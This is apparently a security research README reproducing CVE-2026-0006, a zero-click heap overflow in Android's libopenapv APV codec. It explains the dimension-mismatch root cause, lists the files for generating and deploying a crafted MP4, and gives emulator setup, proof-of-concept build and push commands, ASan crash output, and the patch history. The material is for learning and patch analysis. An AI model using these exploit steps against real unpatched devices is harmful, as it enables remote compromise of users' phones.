

# CVE-2026-0006: Heap Buffer Overflow in libopenapv (Android APV Codec)

## Patch Analysis & Reproduction by [Mobile Hacking Lab](https://www.mobilehackinglab.com)

**CVSS 9.8 Critical** | Actively exploited in the wild | Patched March 2026

> **Note:** We did not discover this vulnerability. All credit for finding and responsibly reporting CVE-2026-0006 goes to the original researchers. This repository contains our independent **patch analysis, reproduction, and educational writeup** to help the security community understand the bug class and exploitation techniques involved.



## Overview

CVE-2026-0006 is a heap buffer overflow in [libopenapv](https://github.com/AcademySoftwareFoundation/openapv), Samsung's open-source APV (Advanced Professional Video) codec integrated into Android 16 as a Mainline module.

The vulnerability allows **zero-click remote code execution** via a crafted MP4 file. Android's media framework processes video files automatically for thumbnails and previews — no user interaction required.

### Root Cause

`oapvd_info()` and `oapvd_decode()` read frame dimensions from **different PBUs** (Payload Byte Units). An attacker injects an AU_INFO PBU (type 65) claiming small dimensions (16x16), while the actual FRAME PBU encodes large dimensions (64x64). The framework allocates buffers based on `oapvd_info()` output, then `oapvd_decode()` writes decoded pixels at the FRAME PBU's dimensions — overflowing the buffer by **14,848 bytes**.

### Affected Versions

- libopenapv v0.1.11.1 through v0.1.13.0
- Android 16 devices with security patch level before March 2026
- Samsung Galaxy S26 Ultra and other devices with APV codec support

## Repository Contents

| File | Description |
|------|-------------|
| `generate_overflow_mp4.py` | Generates the exploit MP4 with AU_INFO dimension mismatch |
| `deploy_exploit_mp4.sh` | One-shot: generate, push to Android device, open, and capture crash |
| `poc_mp4_asan.c` | ASan PoC mimicking C2SoftApvDec decode path |
| `poc_android_oob_write.c` | Standalone ARM64 PoC with guard region overflow detection |
| `valid.apv` | Valid 337-byte APV bitstream (64x64, YUV422, 10-bit) |
| `apv-mp4/valid_ffmpeg.mp4` | Baseline MP4 container (generated by ffmpeg) |
| `apv-mp4/overflow_auinfo.mp4` | Pre-built exploit MP4 (1,178 bytes) |

## Setting Up the Test Environment

You need an Android 16 emulator with a security patch level **before March 2026** (the APV decoder is not present in older Android versions).

### Create the AVD

```bash
# Install the required system image (Android 16 / API 36, ARM64)
sdkmanager "system-images;android-36.1;google_apis;arm64-v8a"

# Create the AVD
avdmanager create avd \
  -n android16_apv \
  -k "system-images;android-36.1;google_apis;arm64-v8a" \
  -d pixel_6

# Launch the emulator
emulator -avd android16_apv -no-snapshot-load
```

### Verify the APV decoder is present

```bash
# Check that the APV codec module exists
adb shell ls -la /apex/com.android.media.swcodec/lib64/libcodec2_soft_apvdec.so

# Check security patch level (must be before 2026-03-01)
adb shell getprop ro.build.version.security_patch
```

If the security patch is `2026-03-01` or later, the vulnerability has been patched and the exploit will not work. Use an earlier system image or snapshot.

## Quick Start

### Option 1: Deploy pre-built exploit MP4 to Android device

```bash
# Requires: adb connected to Android 16 device/emulator (pre-March 2026 patch)
./deploy_exploit_mp4.sh
```

This generates the exploit MP4, pushes it to the device, opens it, and captures the crash output. The crash may not trigger on the first attempt — the script automatically retries up to 3 times.

### Option 2: Generate the exploit MP4 only

```bash
# Requires: valid.apv and apv-mp4/valid_ffmpeg.mp4 (both included)
python3 generate_overflow_mp4.py
```

### Option 3: Cross-compile ASan PoC for ARM64

```bash
# Requires: Android NDK r29+, libopenapv v0.1.11.3 source
NDK=$HOME/Library/Android/sdk/ndk/29.0.13599879
CC=$NDK/toolchains/llvm/prebuilt/darwin-x86_64/bin/aarch64-linux-android31-clang
ASAN_RT=$NDK/toolchains/llvm/prebuilt/darwin-x86_64/lib/clang/20/lib/linux/libclang_rt.asan-aarch64-android.so

# 1. Build libopenapv with ASan for ARM64
git clone https://github.com/AcademySoftwareFoundation/openapv.git
cd openapv && git checkout v0.1.11.1
mkdir build_arm64_asan && cd build_arm64_asan
cmake .. -DCMAKE_TOOLCHAIN_FILE=$NDK/build/cmake/android.toolchain.cmake \
  -DANDROID_ABI=arm64-v8a -DANDROID_PLATFORM=android-31 \
  -DCMAKE_BUILD_TYPE=Debug \
  -DCMAKE_C_FLAGS="-g -O0 -fsanitize=address -fno-omit-frame-pointer"
make -j$(nproc)

# 2. Cross-compile the MP4 ASan PoC
$CC -g -O0 -fsanitize=address -fno-omit-frame-pointer \
  -I../inc -I./include \
  poc_mp4_asan.c ./lib/liboapv.a -lm -o poc_mp4_asan

# 3. Push and run on device
adb push poc_mp4_asan $ASAN_RT /data/local/tmp/
adb push apv-mp4/overflow_auinfo.mp4 /data/local/tmp/
adb shell "LD_LIBRARY_PATH=/data/local/tmp \
  ASAN_OPTIONS=detect_leaks=0 \
  /data/local/tmp/poc_mp4_asan /data/local/tmp/overflow_auinfo.mp4"
```

### Expected ASan Output

```
==17610==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x006f770f0580
WRITE of size 2 at 0x006f770f0580 thread T0

0x006f770f0580 is located 0 bytes after 512-byte region
[0x006f770f0380,0x006f770f0580)
```

## How It Was Fixed

1. **Immediate bounds checks** (commit `fb6a5eab`): `ssize > 4` validation and `'aPv1'` signature check
2. **Parameter validation** (v0.1.13.1): `oapv_param.c` module for dimension/tile size validation
3. **Safe bitstream access** (v0.2.0.0): bounds-checked reads at the bitstream reader level

## References

- [Android Security Bulletin - March 2026](https://source.android.com/docs/security/bulletin)
- [libopenapv GitHub](https://github.com/AcademySoftwareFoundation/openapv)
- [RFC 9924 - APV Codec](https://www.rfc-editor.org/rfc/rfc9924)
- [Mobile Hacking Lab - Full Writeup](https://www.mobilehackinglab.com/blog/exploiting-android-apv-codec-0click-heap-overflow)

## Credits

**This vulnerability was discovered and responsibly reported by the original security researchers.** We did not find this CVE. All credit for the discovery goes to them.

This repository represents Mobile Hacking Lab's independent **patch analysis and reproduction** — created for educational purposes to help the security community learn from real-world vulnerabilities.

## Disclaimer

This research was conducted for educational purposes on isolated test builds of the vulnerable library. All testing was performed against locally built binaries of the open-source libopenapv project. No production devices or systems were targeted.
